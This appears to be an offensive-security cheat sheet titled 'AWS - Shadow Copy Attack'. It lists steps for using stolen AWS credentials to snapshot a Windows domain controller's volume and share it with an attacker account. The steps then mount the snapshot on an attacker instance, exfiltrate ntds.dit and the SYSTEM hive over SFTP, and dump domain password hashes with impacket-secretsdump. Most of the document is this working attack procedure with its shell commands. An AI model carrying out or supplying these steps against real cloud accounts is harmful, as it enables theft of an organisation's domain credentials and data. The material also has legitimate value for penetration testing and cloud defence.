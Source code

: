 # AWS - Shadow Copy Attack

## Requirements:

#### 1) EC2:CreateSnapshot

#### 2) CloudCopy - https://github.com/Static-Flow/CloudCopy

## Steps:

### 1) Load AWS CLI with Victim Credentials that have at least CreateSnapshot permissions

### 2) Run "Describe-Instances" and show in list for attacker to select

### 3) Run "Create-Snapshot" on volume of selected instance

### 4) Run "modify-snapshot-attribute" on new snapshot to set "createVolumePermission" to attacker AWS Account

### 5) Load AWS CLI with Attacker Credentials

### 6) Run "run-instance" command to create new linux ec2 with our stolen snapshot

### 7) SSH Run

    sudo mkdir /windows

### 8) SSH run 

    sudo mount /dev/xvdf1 /windows/

### 9) SSH run 

    sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user

### 10) SSH run 

    sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user

### 11) SSH run 

    sudo chown ec2-user:ec2-user /home/ec2-user/*

### 12) SFTP 

    get "/home/ec2-user/SYSTEM ./SYSTEM"

### 13) SFTP 

    get "/home/ec2-user/ntds.dit ./ntds.dit"

### 14) locally run 

    impacket-secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets
    
### Expects secretsdump to be on path
